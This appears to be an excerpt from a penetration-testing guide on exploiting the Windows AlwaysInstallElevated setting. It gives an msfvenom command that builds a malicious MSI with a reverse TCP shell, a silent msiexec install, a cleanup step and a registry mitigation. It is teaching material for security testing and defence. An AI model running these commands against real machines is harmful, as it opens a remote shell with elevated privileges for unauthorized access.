 ### Tool Exploitation

1) To perform exploitation with msfvenom, you can use the following command to create a malicious MSI file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f msi > nickvourd.msi
```

2) Open a listener on your Kali machine.

3) Transfer the malicious MSI file to the victim's machine.

4) Initiate the installation process for the malicious MSI package silently without any user interface:

```
msiexec /quiet /qn /i nickvourd.msi
```

5) Verify the reverse shell on your Kali machine:

![AlwaysInstallElevated-Elevated-Privileges](/Pictures/AllwaysInstall-Priv-Esc.png)

:information_source: In order to remove MSI file from the victim, run the following command (in a unprivilege session):

```
msiexec /q /n /uninstall nickvourd.msi
```

## Mitigation

To mitigate the `AlwaysInstallElevated` vulnerability, it is recommended to set the `AlwaysInstallElevated` value to `0` in both the `HKEY_LOCAL_MACHINE` and `HKEY_CURRENT_USER` hives in the Windows Registry.

## References

- [AlwaysInstallElevated Microsoft](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)
- [Windows Installer Microsoft](https://learn.microsoft.com/en-us/windows/win32/msi/windows-installer-portal)
- [How to Create the Windows Installer File (*.msi) Microsoft](https://learn.microsoft.com/en-us/mem/configmgr/develop/apps/how-to-create-the-windows-installer-file-msi)
